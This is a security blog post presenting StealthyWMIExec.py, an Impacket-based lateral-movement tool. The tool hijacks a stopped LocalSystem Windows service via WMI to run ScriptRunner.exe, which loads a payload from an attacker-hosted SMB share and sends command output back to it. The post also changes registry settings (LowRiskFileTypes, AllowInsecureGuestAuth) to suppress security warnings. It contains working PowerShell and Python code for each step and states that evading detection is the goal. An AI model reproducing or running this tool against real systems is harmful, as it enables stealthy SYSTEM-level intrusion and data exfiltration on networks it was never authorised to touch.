







# Stealthy WMI lateral movement - StealthyWMIExec.py
Recently, I started reading wmiexec.py to learn how to write WMI with Impacket scripts. however, I saw how easy it was to detect WMIExec, because WMIexec uses the `Win32_Process` class and also uses the `Create` Method to spawn a process (for example powershell.exe). and the output of the result was `\\\\127.0.0.1\\ADMIN$\__(time)`.

So I asked my self a question: how can I write an Impacket script that uses WMI and doesn't use the `Win32_Process` that also doesn't write to the disk?

And an idea came to mind. what if we look for a stopped service and changed its path name to a LolBin that can execute a command from a file hosted in an smbserver, and then start the service and upload the result to the same smb server without touching the disk.

So the first thing I did was I searched for a LolBin that runs any type of file that we can use it to execute a command from eg:.bat, .cmd, .ps1 and it can fetch a file from the smb server
with some search in [lolbas](https://lolbas-project.github.io/#/) I found a match https://lolbas-project.github.io/lolbas/Binaries/Scriptrunner/ 

```
ScriptRunner.exe -appvscript \\servername\C$\Windows\Temp\file.cmd
```

And this LolBin can execute a cmd file from a smb server 
Now we will make a cmd file and test the LolBin from `powershell`

The cmd file that will be executed is test.cmd :
```
@echo 
echo hello World > C:\Users\ghaleb\Desktop\hello.txt
```

Now lets host it in our attacker machine with `impacket-smbserver`

```bash
┌──(kali㉿kali)-[~/smb]
└─$ cat shell.cmd 
@echo off
echo Hello, World! > C:\users\ghaleb\Desktop\hello.txt"

┌──(kali㉿kali)-[~/smb]
└─$ impacket-smbserver -smb2support "share"  '.'
```

Trigger the `Scriptrunner.exe`
```powershell
PS C:\Windows\system32> ScriptRunner.exe -appvscript  \\192.168.122.126\share\shell.cmd
```



And I got an error: 
"Error: You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network"

So i did further research online and I found out the problem is occurred because the account can't access a smb share with Guest auth so we need to change value in registry and Allow Insecure Guest Auth by changing `AllowInsecureGuestAuth` value to `DWORD 1` in this key: `HKLM\SYSTEM\CurrentControlSet\Services\LanmanWorkstation\Parameters`

Now try to trigger the LolBin again: 



and this popup stops the execution.
 
So I found a thread in [superuser.com](https://superuser.com/questions/1863693/how-to-get-rid-of-open-file-security-warning-in-windows-11) and it says we  can white list file extensions and mark it as LowRiskFiles by creating a registry key `HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\Associations` with valueName: `LowRiskFileTypes` and ValueData: `.cmd`

And by triggering the LolBin for the third time it works and it fetched the file and executed it!



So now lets search for a stopped service with WMI and change the PathName to the LolBin and start it 

First thing is to search for a service with `State = 'Stopped'` 


And lets select the first service and Change the path name: 
```powerhsell
$TargetService = Get-CimInstance -ClassName Win32_Service -Filter "State='Stopped'" -Property *| Select-Object -First 1
```

As we can see the starter is `NT AUTHORITY\LocalService`
and based on [MSDN](https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts#local-service) It says: " It has minimum privileges on the local computer and presents anonymous credentials on the network." and this means we can access the smb share without changing the first registry that I mentioned and I have changed the Value of `AllowInsecureGuestAuth` back to 0 and changed the pathName to 

```powershell
Invoke-CimMethod -InputObject $TargetService -MethodName Change -Arguments @{
	PathName = "C:\Windows\System32\scriptrunner.exe -appvscript \\192.168.122.126\share\shell.cmd"
}
```

And then started the service: 
```powershell
Invoke-CimMethod -InputObject $TargetService -MethodName StartService
```


And we got an smb connection with a null session but there is no command executed in the windows machine so after some thinking I remembered that I whitelisted the `.cmd` extension in `HKLM` so what if we searched for a service that runs under `NT AUTHORITY\SYSTEM` and I found that if the StarterName is `LocalSystem` it means it has `NT AUTHORITY\SYSTEM` token [localSystem Account](https://learn.microsoft.com/en-us/windows/win32/services/localsystem-account) 

So lets change our conditions so that we search for a service that is in a stopped state and the starterName is `LocalSystem`  

```powershell
$TargetService = Get-CimInstance -ClassName Win32_Service -Filter "State='Stopped' AND StartName ='LocalSystem'" | Select-Object -First 1
```


And let's change the path and start it: 
```powershell
Invoke-CimMethod -InputObject $TargetService -MethodName Change -Arguments @{
	PathName = "C:\Windows\System32\scriptrunner.exe -appvscript \\192.168.122.126\share\shell.cmd"
}
	
Invoke-CimMethod -InputObject $TargetService -MethodName StartService
```


As we can see that it works on `LocalSystem` service!

So after that I wrote a script with its structure stolen from impacket''s `wmiexec.py` and this script does the following :
1. Start an smb server
2. Check if LowRiskFileTypes is set to ".cmd" with the registry (NameSpace: `/root/default` Class: `StdRegProv` Method: `GetStringValue`)
	- . if not, then add it with the registry (NameSpace: `/root/default` Class: `StdRegProv` Method: `CreateKey` & `SetStringValue`)
3. Query a service with a State that is `stopped` and its Starter Name is `LocalSystem` (NameSpace: `/root/cimv2` Class: `Win32_Service`)
4. Change the PathName to LolBin with args (NameSpace: `/root/cimv2` Class: `Win32_Service` Method: `Change`)
	- Create a .cmd file that executes powershell
	- Powershell script will execute a command and pipe the result to an smbserver, once finished it will write the file called done.txt to an smbserver (as a simple callback)
5. Start the service (NameSpace: `/root/cimv2` Class: `Win32_Service` Method: `StartService`)
6. Retrieve the result from the smbserver and print it. (then removes the output file from the smbserver)
7. Revert the PathName of the service to its orignal path.

So let's dig a bit deeper in the script:

This code will act as a function that starts an smb server that we'll call in main:
```python
def StartSmbServer():
	global smb_server
	smb_server = smbserver.SimpleSMBServer(listenAddress='0.0.0.0', listenPort=445)
	smb_server.addShare("SHARE", "share/" , "", readOnly="no")
	smb_server.setSMB2Support(True)
	smb_server.setDropSSP(False)
	smb_server.setSMBChallenge('')
	smb_server.start()

```
 
below code we are connecting to DCOM and creating a WMI object by providing WMI CLSID & IID `iInterface = dcom.CoCreateInstanceEx(wmi.CLSID_WbemLevel1Login, wmi.IID_IWbemLevel1Login)` 
and by using WMI object we will connect to `root/default` & `root/cimv2` namespaces:
```python
dcom = DCOMConnection(addr, self.__username, self.__password, self.__domain, self.__lmhash, self.__nthash,
self.__aesKey, oxidResolver=True, doKerberos=self.__doKerberos, kdcHost=self.__kdcHost, remoteHost=self.__remoteHost)

iInterface = dcom.CoCreateInstanceEx(wmi.CLSID_WbemLevel1Login, wmi.IID_IWbemLevel1Login)
iWbemLevel1Login = wmi.IWbemLevel1Login(iInterface)
iWbemServicesDefault = iWbemLevel1Login.NTLMLogin('//./root/default', NULL, NULL)
iWbemServicesCimv2 = iWbemLevel1Login.NTLMLogin('//./root/cimv2', NULL, NULL)

iWbemLevel1Login.RemRelease()
```

In the below code we are Getting Object from the `StdRegProv` class and assign it to the `RemoteRegCheck` class and then we are using a function from the `RemoteRegCheck` class that checks if the value `LowRiskFileTypes` contains `.cmd` if not, it will use method `CreateKeys` :
```python
StdRegProv, _ = iWbemServicesDefault.GetObject('StdRegProv')

StdRegProv.createMethods('StdRegProv', StdRegProv.getMethods())

self.reg = RemoteRegCheck(StdRegProv)

if not self.reg.CheckPreValues(r"Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileTypes",".cmd"):
	self.reg.CreateKeys(r"Software\Microsoft\Windows\CurrentVersion\Policies\Associations","LowRiskFileTypes",".cmd")
```

As we can see in `RemoteRegCheck` that `CheckPreValues` uses `GetStringValue` WMI Method and CreateKeys uses the `CreateKey` WMI Method:
```python
class RemoteRegCheck():

def __init__(self, StdRegProv):
	self.__StdRegProv = StdRegProv
	self.__hDefKey = 2147483650

def CheckPreValues(self, sSubKeyName, sValueName, needVal):
	Out = self.__StdRegProv.GetStringValue(self.__hDefKey, sSubKeyName, sValueName)
	value = Out.sValue
	if value is None:
		return False
	
	if needVal in value:
		return True
	else:
		return False
		
def CreateKeys(self,sSubKeyName,sValueName,sValue):

	Out = self.__StdRegProv.CreateKey(self.__hDefKey, sSubKeyName)
	if Out.ReturnValue == 0:
		Out = self.__StdRegProv.SetStringValue(self.__hDefKey, sSubKeyName,sValueName,sValue)
		return Out.ReturnValue
```

In the code below we are querying services that match `State =Stopped AND StarterName=LocalSystem` we  took the first service and printed Service Name, State,PathName and StartName. also passed the object to the `RemoteService` class:
```python
results = iWbemServicesCimv2.ExecQuery(
	'SELECT * FROM Win32_Service WHERE State="Stopped" AND StartName="LocalSystem"'
)
service = results.Next(0xFFFFFFFF, 1)[0]
service.createMethods(service.getClassName(), service.getMethods())

print("[+] Suitable service found")
print("[+] Service Name : " + service.Name)
print("[+] State : " + service.State)
print("[+] PathName : " + service.PathName)
print("[+] StartName : " + service.StartName)

self.serv = RemoteService(service)
```

And the class is simple it simply has two methods that act as wrapper for its equivalent in WMI:
```python
class RemoteService():

def __init__(self, service):
	...
def ChangePathName(self, path):
	self.__service.Change(
		self.__displayName,
		path,
		16,
		1,
		self.__startMode,
		0,
		self.__startName,
		'',
		'',
		[],
		[]
	)

def StartService(self):
	self.__service.StartService()
```

In the below code it will change the path name to LolBIN and the PreparePayload will generate the payload that has the command the attacker wants. and it will output to the smb server share. if it is fully done it will upload a file called done.txt to the smb server

And then `self.serv.StartService()` will start the service to trigger the payload, and the while loop will check if there is a file called `done.txt` and if the size is NOT equal to 0 it will read the output file and it will delete it after reading it.
```python
self.serv.ChangePathName(rf"C:\Windows\System32\scriptrunner.exe -appvscript \\{self.__smbIP}\share\shell.cmd")

PreparePayload(self.__command,self.__smbIP)

self.serv.StartService()

while not os.path.exists("share/output/done.txt") or os.path.getsize("share/output/done.txt") == 0:
	continue

print("[+] Result recived!")
print(read_file("share/output/out.txt"))


self.serv.ChangePathName(service.PathName)
```

I have published the script on GitHub: [StealthyWMIExec.py](https://github.com/Ghaleb0x317374/StealthyWMIExec.py)


## new approach for lateral movement with impacket ?
With this idea, we can rewrite it using RPCs not just WMI. The main concept is to avoid touching the disk at all when using an `*exec.py` tools like `smbexec.py` or `wmiexec.py`.

This can be achieved by starting an SMB server that acts as both an exfiltration channel for results and a host for payloads, while utilizing LOLBins for execution.
# resources
- https://www.reddit.com/r/WindowsHelp/comments/1htk1jp/you_cant_access_this_shared_folder_because_your/
- https://superuser.com/questions/1863693/how-to-get-rid-of-open-file-security-warning-in-windows-11
- https://lolbas-project.github.io/lolbas/Binaries/Scriptrunner/
- https://learn.microsoft.com/en-us/windows/security/identity-protection/access-control/local-accounts#local-service
- https://learn.microsoft.com/en-us/windows/win32/services/localsystem-account
